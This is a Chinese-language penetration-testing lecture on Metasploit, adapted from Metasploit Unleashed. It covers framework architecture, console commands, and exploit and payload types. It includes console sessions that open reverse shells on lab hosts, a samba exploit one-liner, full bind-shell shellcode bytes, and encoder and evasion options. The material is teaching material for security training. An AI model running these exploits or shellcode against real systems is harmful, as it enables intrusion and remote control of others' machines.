




# 第12讲 渗透工具 Metasploit

内容来源：https://www.offensive-security.com/metasploit-unleashed


## 1 基本介绍



MSF(Metasploit Framework) 是一个十分实用的渗透平台。被一些安全专家认为是当今安全专业人员免费使用的唯一最有用的安全审核工具。


### 1.1 准备工作

学习这部分知识最好同步开展实践，这需要准备安装有Metasploit的实验环境，例如Kali 2019虚拟机。

此外，还应当准备一些练习用的靶机，例如：
- Windows server 2003
- OWASP BWA V1.2

### 1.2 Metasploit 体系架构

#### 1.2.1 文件系统和库

在Kali linux中，metasploit作为package被提供，安装在```/usr/share/metasploit-framework``` 目录下。



##### 文件系统

MSF中有一些重要的目录：
- data，包含了一些可编辑文件，用于存放某些exploits、wordlists、images等的二进制需求。
- documentation，包含文档。
- lib，包含了MSF代码所用的库。
- modules，包含了MSF中的exploits、auxiliary、post modules、payloads、encoders、nop generators。
- plugins，包含了一些插件。
- scripts，包含了meterpreter 和 别的脚本。
- tools，包含了各种有用的命令行工具。

##### Metasploit 库

有许多MSF库用于辅助渗透过程，例如HTTP请求或攻击载荷编码。重要的有：
- Rex
  - 很多任务的基础库
  - 操作sockets，protocols，text tranformations等
  - SSL, SMB, HTTP, XOR, Base64, Unicode
- Msf::Core
  - 提供‘basic’ API
  - 定义 Metasploit Framework
- Msf::Base
  - 提供 ‘friendly’ API
  - 提供简化的APIs for use in the Framework

#### 1.2.2 Metasploit Modules and Locations

Metasploit 模块放在```/usr/share/metasploit-framework/modules/``` 中，而自定义的模块常放在``` ~/.msf4/modules/.```中。

基本的模块包括：

- Exploits，渗透模块；
- Auxiliary，辅助模块，提供端口扫描，模糊，嗅探等；
- Payloads
- Encoders
- Nops

上面的模块是MSF启动后会自动加载的，额外的模块目录，可以使用```-m```选项加载。例如：
```msfconsole -m ~/secret-modules/```

或者在启动MSF后，使用```loadpath```命令。
```
msf > loadpath
Usage: loadpath 

Loads modules from the given directory which should contain subdirectories for
module types, e.g. /path/to/modules/exploits

msf > loadpath /usr/share/metasploit-framework/modules/
Loaded 399 modules:
    399 payloads
```

#### 1.2.3 Metasploit Object Model

MSF框架可参考下图：



在Metasploit框架中，所有模块都是Ruby类。
- 模块继承自特定于类型的类
- 特定于类型的类继承自Msf :: Module类
- 模块之间有共享的通用API
- 有效负载略有不同。

Payload是在运行时从各种组件创建的，分阶段（stages）将需要stager粘在一起。

#### 1.2.4 Mixins and plugins

MSF是RUBY语言编写的。Ruby有以下特点：
- 每个class仅有一个parent
- 一个class可能包括许多Modules
- Modules可以增加新methods
- Modules可以重载老methods
- Metasploit modules继承了Msf:Module，而且包含了mixins，以增加特性。

##### Metasploit Mixins

Mixins很容易实现，它将一个类包含到另一个里面。

混入与继承既不同又相似。

混入可以重载一个类的方法。

Mixins can add new features and allows modules to have different ‘flavors’.
- Protocol-specific (HTTP, SMB)
- Behaviour-specific (brute force)
- connect() is implemented by the TCP mixin
- connect() is then overloaded by FTP, SMB, and others

Mixins can change behavior.
- The Scanner mixin overloads run()
- Scanner changes run() for run_host() and run_range()
- It calls these in parallel based on the THREADS setting
- The BruteForce mixin is similar

```
class MyParent
     def woof
          puts “woof!”
     end
end

class MyClass > MyParent
end

object = MyClass.new
object.woof() => “woof!”

================================================================

module MyMixin
     def woof
          puts “hijacked the woof method!”
     end
end

class MyBetterClass > MyClass
     include MyMixin
end
```

##### Metasploit Plugins

插件类似API一样在工作。

- They manipulate the framework as a whole
- Plugins hook into the event subsystem
- They automate specific tasks that would be tedious to do manually

Plugins only work in the msfconsole.
- Plugins can add new console commands
- They extend the overall Framework functionality

## 2 MSF 基础

### 2.1 MSFcli

msfcli 为MSF提供了一个强力的命令行接口，它允许简单的加入metasploit 渗透模块到任何你生成的脚本中。




如果项快速进入某个渗透工具，使用它的方法是```-x```选项，例如：

```
root@kali:~# msfconsole -x "use exploit/multi/samba/usermap_script;\
   set RHOST 172.16.194.172; \
   set PAYLOAD cmd/unix/reverse; \
   set LHOST 172.16.194.163; \
   run"
```

可以使用下列方法获得帮助：
```
root@kali:~# msfcli -h
Usage: /usr/bin/msfcli<option=value> [mode]
===========================================================

    Mode           Description
    ----           -----------
    (A)dvanced     Show available advanced options for this module
    (AC)tions      Show available actions for this auxiliary module
    (C)heck        Run the check routine of the selected module
    (E)xecute      Execute the selected module
    (H)elp         You're looking at it baby!
    (I)DS Evasion  Show available ids evasion options for this module
    (O)ptions      Show available options for this module
    (P)ayloads     Show available payloads for this module
    (S)ummary      Show information about this module
    (T)argets      Show available targets for this exploit module

Examples:
msfcli multi/handler payload=windows/meterpreter/reverse_tcp lhost=IP E
msfcli auxiliary/scanner/http/http_version rhosts=IP encoder= post= nop= E
```

#### 2.1.1 Benefits of the MSFcli Interface

- 支持启动 exploits and auxiliary modules
- 有助于特殊任务
- 好学
- 易于测试一个新开发的渗透
- 时一次性渗透的好工具
- 快速渗透

The only real drawback of msfcli is that it is not supported quite as well as msfconsole and it can only handle one shell at a time, making it rather impractical for client-side attacks. It also doesn’t support any of the advanced automation features of msfconsole.

### 2.2 MSFconsole 命令

#### 2.2.1 主要命令参考

|命令|功能|例如|
|-|-|-|
|back|从当前上下文返回原环境。|msf>back|
|banner| 显示标志|msf> banner |
|cd| 进入某个工作目录|msf> cd exploits |
|check| 检查|msf exploit(ms08_067_netapi) > check|
|color| 色彩|msf> color |
|connect|与某个主机通信|msf > connect 192.168.1.1 23 |
|edit|  使用 $VISUAL or $EDITOR 编辑当前模块| msf exploit(ms10_061_spoolss) > edit|
|exit|  退出控制台| msf exploit(ms10_061_spoolss) > exit|
|get|  获取某个上下文相关的变量的值。|
|getg| 获取某个全局变量的值|
|go_pro|登录msf web ui|
|grep|  GREP另一个命令输出|
|help|  Help menu|
|info| 显示一个或多个模块的信息|
|irb| 进入ruby交互编程模式|msf>irb|
|jobs| 显示和管理作业|msf > jobs -h|
|kill| 杀死作业|msf exploit(ms10_002_aurora) > kill 0|
|load| 调用一个框架插件|msf > load|
|loadpath|从指定路径查找并加载模块。|msf > loadpath /home/secret/modules|
|unload| 卸载某个模块|msf > unload pcap_log |
|makerc|保存命令Save commands entered since start to a file|
|OPTIONS|显示当前模块需要配置的选项|msf exploit(ms08_067_netapi) > show options|
|advanced|显示当前模块可用的高级选项|msf exploit(ms08_067_netapi) > show advanced|
|PAYLOADS|显示当前模块可用的攻击载荷|msf  exploit(ms08_067_netapi) > show payloads|
|ENCODERS|显示可用的编码器|msf > show encoders|
|NOPS|显示可用的空指令|msf > show nops|
|popm| 从堆栈中推出最近的模块并激活该模块 |
|previous| 使用之前的一个模块作为当前模块|
|pushm| 将当前模块压入堆栈|
|quit|  退出当前shell|
|reload_all|使用已定义的模块路径重调用模块|
|rename_job|Rename a job|
|resource|运行可被msfconsole加载的资源文件|msf > resource|
|route| 通过session设置socket路由通过Route traffic through a session|
|save|  Saves the active datastores|
|search|按关键字查找模块和描述 |msf > search help|
|sessions|导出 session 列表和信息 |msf > sessions -h|
|set| 配置选项值|msf auxiliary(ms09_050_smb2) > set RHOST 172.16.194.134 |
|setg| 设置全局变量|msf > setg LHOST 192.168.1.101|
|show|  显示给定类型、所有模块 |msf > show|
|sleep| 按指定秒数睡眠一段时间 |
|spool| Write console output into a file as well the screen|
|TARGETS|显示当前模块可以针对的目标|msf  exploit(ms08_067_netapi) > show targets|
|threads|显示并操作后台线程|
|unset| 取消设置项|
|unsetg|取消全局设置项|
|use|按名称启用一个模块|msf > use dos/windows/smb/ms09_001_write|
|version|查看版本信息|

具体参考：https://www.offensive-security.com/metasploit-unleashed/msfconsole-commands/

### 2.3 渗透模块（exploit）

Metasploit框架中的所有漏洞都将分为两类：
- 主动渗透 ACTIVE EXPLOITS
- 被动渗透 Passive EXPLOITS

#### 2.3.1 ACTIVE EXPLOITS

主动渗透讲渗透某个主机，直至完成或退出。
- 当打开被攻击目标的某个shell时，暴力破解模块将退出。
- 如果遇到错误，模块执行将停止。
- 你可以通过使用参数“-j”强制一个主动模块到后台。

```shell
msf exploit(ms08_067_netapi) > exploit -j
[*] Exploit running as background job.
msf exploit(ms08_067_netapi) >

```

下面的例子展示了使用先前渗透成功后的shell：

```shell
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set RHOST 192.168.1.100
RHOST => 192.168.1.100
msf exploit(psexec) > set PAYLOAD windows/shell/reverse_tcp
PAYLOAD => windows/shell/reverse_tcp
msf exploit(psexec) > set LHOST 192.168.1.5
LHOST => 192.168.1.5
msf exploit(psexec) > set LPORT 4444
LPORT => 4444
msf exploit(psexec) > set SMBUSER victim
SMBUSER => victim
msf exploit(psexec) > set SMBPASS s3cr3t
SMBPASS => s3cr3t
msf exploit(psexec) > exploit

[*] Connecting to the server...
[*] Started reverse handler
[*] Authenticating as user 'victim'...
[*] Uploading payload...
[*] Created \hikmEeEM.exe...
[*] Binding to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.1.100[\svcctl] ...
[*] Bound to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.1.100[\svcctl] ...
[*] Obtaining a service manager handle...
[*] Creating a new service (ciWyCVEp - "MXAVZsCqfRtZwScLdexnD")...
[*] Closing service handle...
[*] Opening service...
[*] Starting the service...
[*] Removing the service...
[*] Closing service handle...
[*] Deleting \hikmEeEM.exe...
[*] Sending stage (240 bytes)
[*] Command shell session 1 opened (192.168.1.5:4444 -> 192.168.1.100:1073)

Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```

#### 2.3.2 PASSIVE EXPLOITS

被动渗透会等待传入的主机并在它们连接时加以利用。
- 被动漏洞利用几乎总是集中在Web浏览器，FTP客户端等客户端上。
- 它们也可以与电子邮件攻击结合使用，以等待连接。
- 可以通过将'-l'传递给session命令来枚举被动漏洞利用报告shell的状态。
- 传递“ -i”将与外壳交互。

```Shell
msf exploit(ani_loadimage_chunksize) > sessions -l

Active sessions
===============

  Id  Description  Tunnel
  --  -----------  ------
  1   Meterpreter  192.168.1.5:52647 -> 192.168.1.100:4444

msf exploit(ani_loadimage_chunksize) > sessions -i 1
[*] Starting interaction with 1...

meterpreter >
```


下面是一个例子，展示了安装渗透动画光标漏洞的后，渗透直至被攻击目标的浏览器连接到我们的恶意网站时才激活。

```shell
msf > use exploit/windows/browser/ani_loadimage_chunksize
msf exploit(ani_loadimage_chunksize) > set URIPATH /
URIPATH => /
msf exploit(ani_loadimage_chunksize) > set PAYLOAD windows/shell/reverse_tcp
PAYLOAD => windows/shell/reverse_tcp
msf exploit(ani_loadimage_chunksize) > set LHOST 192.168.1.5
LHOST => 192.168.1.5
msf exploit(ani_loadimage_chunksize) > set LPORT 4444
LPORT => 4444
msf exploit(ani_loadimage_chunksize) > exploit
[*] Exploit running as background job.

[*] Started reverse handler
[*] Using URL: http://0.0.0.0:8080/
[*]  Local IP: http://192.168.1.5:8080/
[*] Server started.
msf exploit(ani_loadimage_chunksize) >
[*] Attempting to exploit ani_loadimage_chunksize
[*] Sending HTML page to 192.168.1.100:1077...
[*] Attempting to exploit ani_loadimage_chunksize
[*] Sending Windows ANI LoadAniIcon() Chunk Size Stack Overflow (HTTP) to 192.168.1.100:1077...
[*] Sending stage (240 bytes)
[*] Command shell session 2 opened (192.168.1.5:4444 -> 192.168.1.100:1078)

msf exploit(ani_loadimage_chunksize) > sessions -i 2
[*] Starting interaction with 2...

Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\Documents and Settings\victim\Desktop>
```

#### 2.3.3 渗透测试过程

使用渗透模块一般有以下几个步骤：

##### 加载某个渗透模块.

例如：
```
msf > use  exploit/windows/smb/ms09_050_smb2_negotiate_func_index
msf exploit(ms09_050_smb2_negotiate_func_index) > help
...snip...
Exploit Commands
================

    Command       Description
    -------       -----------
    check         Check to see if a target is vulnerable
    exploit       Launch an exploit attempt
    pry           Open a Pry session on the current module
    rcheck        Reloads the module and checks if the target is vulnerable
    reload        Just reloads the module
    rerun         Alias for rexploit
    rexploit      Reloads the module and launches an exploit attempt
    run           Alias for exploit

msf exploit(ms09_050_smb2_negotiate_func_index) >
show
Using an exploit also adds more options to the show command.

MSF Exploit Targets
msf exploit(ms09_050_smb2_negotiate_func_index) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Windows Vista SP1/SP2 and Server 2008 (x86)
```

##### 查看可用载荷

例如：
```
msf exploit(ms09_050_smb2_negotiate_func_index) > show payloads

Compatible Payloads
===================

   Name                              Disclosure Date  Rank    Description
   ----                              ---------------  ----    -----------
   generic/custom                                     normal  Custom Payload
   generic/debug_trap                                 normal  Generic x86 Debug Trap
   generic/shell_bind_tcp                             normal  Generic Command Shell, Bind TCP Inline
   generic/shell_reverse_tcp                          normal  Generic Command Shell, Reverse TCP Inline
   generic/tight_loop                                 normal  Generic x86 Tight Loop
   windows/adduser                                    normal  Windows Execute net user /ADD
...snip...
```

##### 查看相关选项

例如：
```
MSF Exploit Options
msf exploit(ms09_050_smb2_negotiate_func_index) > show options

Module options (exploit/windows/smb/ms09_050_smb2_negotiate_func_index):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST                   yes       The target address
   RPORT  445              yes       The target port (TCP)
   WAIT   180              yes       The number of seconds to wait for the attack to complete.


Exploit target:

   Id  Name
   --  ----
   0   Windows Vista SP1/SP2 and Server 2008 (x86)
```

##### 查看高级选项。

例如：
```
msf exploit(ms09_050_smb2_negotiate_func_index) > show advanced

Module advanced options (exploit/windows/smb/ms09_050_smb2_negotiate_func_index):

   Name                    Current Setting    Required  Description
   ----                    ---------------    --------  -----------
   CHOST                                      no        The local client address
   CPORT                                      no        The local client port
   ConnectTimeout          10                 yes       Maximum number of seconds to establish a TCP connection
   ContextInformationFile                     no        The information file that contains context information
   DisablePayloadHandler   false              no        Disable the handler code for the selected payload
   EnableContextEncoding   false              no        Use transient context when encoding payloads
...snip...

```

##### 查看免杀（Evasion）

例如：
```
msf exploit(ms09_050_smb2_negotiate_func_index) > show evasion
Module evasion options:

   Name                           Current Setting  Required  Description
   ----                           ---------------  --------  -----------
   SMB::obscure_trans_pipe_level  0                yes       Obscure PIPE string in TransNamedPipe (level 0-3)
   SMB::pad_data_level            0                yes       Place extra padding between headers and data (level 0-3)
   SMB::pad_file_level            0                yes       Obscure path names used in open/create (level 0-3)
   SMB::pipe_evasion              false            yes       Enable segmented read/writes for SMB Pipes
   SMB::pipe_read_max_size        1024             yes       Maximum buffer size for pipe reads
   SMB::pipe_read_min_size        1                yes       Minimum buffer size for pipe reads
   SMB::pipe_write_max_size       1024             yes       Maximum buffer size for pipe writes
   SMB::pipe_write_min_size       1                yes       Minimum buffer size for pipe writes
   TCP::max_send_size             0                no        Maxiumum tcp segment size.  (0 = disable)
   TCP::send_delay                0                no        Delays inserted before every send.  (0 = disable)
```

### 2.4 攻击载荷（payload）

MSF中的攻击载荷（payload）对应于某个渗透模块（exploit）。MSF中有3种不同类型的载荷模块：

- singles 独立式
- stagers 内行式
- stages 阶段式

这些攻击载荷可以用于多种场景。

#### 2.4.1 Singles

Singles是自包含、完全独立的攻击载荷。由于这些载荷是独立的，所以可以用在其它程序中，例如netcat。

#### 2.4.2 Stagers

Stagers载荷通常要在攻击者和目标之间建立一个网络连接，这个连接一般被设计为小且可靠。当然又小又可靠是很难同时做到的。

Windows NX 与 No-Nx stagers对比:
- NX cpus 和 DEP 有可靠性问题
- NX stagers 比较大（VirtualAlloc)
- 默认情况下，选NX+WIN7 兼容性

> 从Windows Vista上的Windows Internet Explorer 7开始，Internet控制面板项包括“ 启用内存保护”选项，以帮助缓解在线攻击。此选项也称为数据执行保护（DEP）或禁止执行（NX）。启用此选项后，它将与处理器一起使用，通过阻止标记为不可执行的内存中的代码执行来帮助防止缓冲区溢出攻击。
  
#### 2.4.3 Stages

Stages是Stagers模块下载的载荷组件。

各种payload的stages使用无大小限制的提供高级特征，例如Meterpreter，VNC Injection，和 iPhon ‘ipwn’ shell。

Payload stages自动使用“middle stagers”，特点是：
- 含有大载荷的单一 recv() fail
- stager接收中等的stager
- middle stager 执行全下载


#### 2.4.4 扩展攻击载荷

攻击载荷可分为：Singles 、stagers、stages三种主要类型，也可以细分为为下列多种类型（每种类型对应一个单一角色）：

##### INLINE（non staged）

指包含了所有渗透代码的单个攻击载荷。这类载荷一般很稳定，它把所有问题都考虑在一个组件中。但应用面可能比较窄，仅对特定类型漏洞起作用。

##### STAGER

Stager类型的载荷常用于连接各个stage载荷，以执行一个特定任务。一个Stager建立了攻击者和被攻击者之间的通信频道，可以读取stage载荷，并在远程主机上执行。

##### METERPRETER

Meterpreter 是一种高级多用途的攻击载荷，驻留在内存中，在硬盘上不留下任何痕迹。 它还可以使用各种脚本和插件。

##### PASSIVEX

被动攻击载荷能够有效应对防火墙，它使用 ActiveX 控件，生成一个隐藏的IE浏览器实例。使用新的 ActiveX 控件，可以使用HTTP请求和响应进行通信。

##### NONX


The NX (不可执行) bit是一种构建在某些CPU中的特性，可以阻止执行特定内存区域中的指令。在Windows中，DEP（数据执行保护）就是NX的具体实现形式之一。Metasploit 中的 NoNX 载荷用于规避 DEP 机制.

##### ORD

序号化的攻击载荷是基于 Windows stager的攻击载荷，它有一些明显的优势和劣势：
- 非常适用于 windows 9x
- 体积很小
- 依赖ws2_32.dll，需要在渗透前加载这个dll
- 不太稳定。

##### IPV6

The Metasploit IPv6 攻击载荷, 适于IPv6网络。

##### REFLECTIVE DLL INJECTION

反射型DLL注入是一种注入被攻击主机内存中进程的方法，不在硬盘留有痕迹。VNC 和Meterpreter载荷都是这类载荷。


#### 2.4.5 生成新的攻击载荷

在渗透开发过程中，重要的是生成一定的shellcode。在metasploit中，攻击载荷可以从msfconsole中生成。

当我们使用某个攻击载荷时，Metasploit会增加 ```generate``` ， ```pry``` 和 ```reload``` 命令。

例如：

```shell
msf > use payload/windows/shell_bind_tcp
msf payload(shell_bind_tcp) > help
...snip...

    Command       Description
    -------       -----------
    generate      Generates a payload
    pry           Open a Pry session on the current module
    reload        Reload the current module from disk

```
下面我们查看一下 ```generate``` 命令的帮助信息：

```shell
msf payload(shell_bind_tcp) > generate -h
Usage: generate [options]

Generates a payload.

OPTIONS:

    -E        Force encoding.
    -b   The list of characters to avoid: '\x00\xff'
    -e   The name of the encoder module to use.
    -f   The output file name (otherwise stdout)
    -h        Help banner.
    -i   the number of encoding iterations.
    -k        Keep the template executable functional
    -o   A comma separated list of options in VAR=VAL format.
    -p   The Platform for output.
    -s   NOP sled length.
    -t   The output format: raw,ruby,rb,perl,pl,c,js_be,js_le,java,dll,exe,exe-small,elf,macho,vba,vbs,loop-vbs,asp,war
    -x   The executable template to use
```

为了生成无选项的 shellcode ，可以简单执行 ```generate``` 命令：

```
msf payload(shell_bind_tcp) > generate
# windows/shell_bind_tcp - 341 bytes
# http://www.metasploit.com
# VERBOSE=false, LPORT=4444, RHOST=, EXITFUNC=process, 
# InitialAutoRunScript=, AutoRunScript=
buf = 
"\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52" +
"\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26" +
"\x31\xff\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d" +
"\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01\xd0" +
"\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48\x18\x8b" +
"\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff" +
"\x31\xc0\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf4\x03\x7d" +
"\xf8\x3b\x7d\x24\x75\xe2\x58\x8b\x58\x24\x01\xd3\x66\x8b" +
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44" +
"\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x58\x5f\x5a\x8b" +
"\x12\xeb\x86\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f" +
"\x54\x68\x4c\x77\x26\x07\xff\xd5\xb8\x90\x01\x00\x00\x29" +
"\xc4\x54\x50\x68\x29\x80\x6b\x00\xff\xd5\x50\x50\x50\x50" +
"\x40\x50\x40\x50\x68\xea\x0f\xdf\xe0\xff\xd5\x89\xc7\x31" +
"\xdb\x53\x68\x02\x00\x11\x5c\x89\xe6\x6a\x10\x56\x57\x68" +
"\xc2\xdb\x37\x67\xff\xd5\x53\x57\x68\xb7\xe9\x38\xff\xff" +
"\xd5\x53\x53\x57\x68\x74\xec\x3b\xe1\xff\xd5\x57\x89\xc7" +
"\x68\x75\x6e\x4d\x61\xff\xd5\x68\x63\x6d\x64\x00\x89\xe3" +
"\x57\x57\x57\x31\xf6\x6a\x12\x59\x56\xe2\xfd\x66\xc7\x44" +
"\x24\x3c\x01\x01\x8d\x44\x24\x10\xc6\x00\x44\x54\x50\x56" +
"\x56\x56\x46\x56\x4e\x56\x56\x53\x56\x68\x79\xcc\x3f\x86" +
"\xff\xd5\x89\xe0\x4e\x56\x46\xff\x30\x68\x08\x87\x1d\x60" +
"\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5" +
"\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f" +
"\x6a\x00\x53\xff\xd5"
```

直接生成上述有效的攻击载荷是不容易的，通常需要根据不同的目标平台，选择不同的编译器和“bad character”。

上面这个样本代码包含了一个几乎通用的“坏字符”，即 null 字节（\x00）。虽然有些渗透脚本允许使用它，但很多都不允许使用。在此，我们需要告诉metasploit删除那些不想要的字节。

为了完成这一点，我们使用跟随参数“-b” 的 generate 命令。它会替换命令中跟在-b后面的不想要的字节，例如，下面我们将载荷中的\x00去掉了。

```shell
msf  payload(shell_bind_tcp) > generate -b '\x00'
# windows/shell_bind_tcp - 368 bytes
# http://www.metasploit.com
# Encoder: x86/shikata_ga_nai
# VERBOSE=false, LPORT=4444, RHOST=, EXITFUNC=process, 
# InitialAutoRunScript=, AutoRunScript=
buf = 
"\xdb\xde\xba\x99\x7c\x1b\x5f\xd9\x74\x24\xf4\x5e\x2b\xc9" +
"\xb1\x56\x83\xee\xfc\x31\x56\x14\x03\x56\x8d\x9e\xee\xa3" +
"\x45\xd7\x11\x5c\x95\x88\x98\xb9\xa4\x9a\xff\xca\x94\x2a" +
"\x8b\x9f\x14\xc0\xd9\x0b\xaf\xa4\xf5\x3c\x18\x02\x20\x72" +
"\x99\xa2\xec\xd8\x59\xa4\x90\x22\x8d\x06\xa8\xec\xc0\x47" +
"\xed\x11\x2a\x15\xa6\x5e\x98\x8a\xc3\x23\x20\xaa\x03\x28" +
"\x18\xd4\x26\
...snip...
```

上面的shellcode是去除了\x00的。这样我们就得到了一个没有null字节的载荷。上面两端shellcode，长短是不同的。第一段长度为341字节，后一段比第一段多27字节。

```shell
msf  payload(shell_bind_tcp) > generate
# windows/shell_bind_tcp - 341 bytes
# http://www.metasploit.com
# VERBOSE=false, LPORT=4444, RHOST=, EXITFUNC=process, 
...snip...

msf  payload(shell_bind_tcp) > generate -b '\x00'
# windows/shell_bind_tcp - 368 bytes
# http://www.metasploit.com
# Encoder: x86/shikata_ga_nai
...snip...
```

在第一段中，null字节是原始的间隔符，或者无用字符，需要被替换或编码处理，以保证在目标机器中可以被执行。上例另一个重要的变化是使用了编码器。默认情况下，metasploit将选择最好的编码器完成当前任务。编码器负责移除不想要（-b后）的字符或字节内容。当指定坏字符时，Metasploit使用了x86/shikata_ga_nai编码器，这个编码器仅替换空字符。如果需要替换别的字符，就需要使用其他编码器。例如：

```
msf  payload(shell_bind_tcp) > generate -b '\x00\x44\x67\x66\xfa\x01\xe0\x44\x67\xa1\xa2\xa3\x75\x4b'
# windows/shell_bind_tcp - 366 bytes
# http://www.metasploit.com
# Encoder: x86/fnstenv_mov
# VERBOSE=false, LPORT=4444, RHOST=, EXITFUNC=process, 
# InitialAutoRunScript=, AutoRunScript=
buf = 
"\x6a\x56\x59\xd9\xee\xd9\x74\x24\xf4\x5b\x81\x73\x13\xbf" +
"\x5c\xbf\xe8\x83\xeb\xfc\...
...snip...
```

##### 载荷生成失败

虽然Metasploit能够替换或编码不希望出现的字符，但也不总是成功。如果有过多的约束字节，编码器可能会失效，此时会有如下显示：

```shell
